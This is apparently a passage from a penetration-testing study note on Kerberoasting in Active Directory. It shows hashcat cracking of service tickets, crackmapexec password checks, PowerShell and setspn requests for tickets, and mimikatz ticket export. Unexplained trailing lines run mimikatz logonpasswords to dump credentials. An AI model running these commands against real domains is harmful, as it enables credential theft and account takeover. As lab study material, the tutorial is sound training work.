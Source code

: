 With this ticket in hand, we could attempt to crack the user's password offline using Hashcat. Use the flag `-outputfile` to have the hash more handy. Use the following syntax to crack it:
```console
zero@pio$ hashcat -m 13100 hash_file <WORDLIST>
```

If we crack it, we can test the password:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <USER< -p <PASSWORD>
```

## From Windows 

### Semi Manual method

Before **Rubeus** stealing a Kerberos ticket was a complex process. First, enumerate with [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary:
```console
C:\zeropio> setspn.exe -Q */*
```

To request with a single user:
```console
PS C:\zeropio> Add-Type -AssemblyName System.IdentityModel
PS C:\zeropio> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<DOMAIN>/<USER>"
```

The flow of the command was:
- The `Add-Type` cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- `System.IdentityModel` is a namespace that contains different classes for building security token services
- We'll then use the `New-Object` cmdlet to create an instance of a .NET Framework object
- We'll use the `System.IdentityModel.Tokens` namespace with the `KerberosRequestorSecurityToken` class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

We can also choose to retrieve all tickets using the same method:
```console
PS C:\zeropio> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

> This will also pull all computer accounts, so it is not optimal.
{: .prompt-alert}

Now we can use **mimikatz**:
```console
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm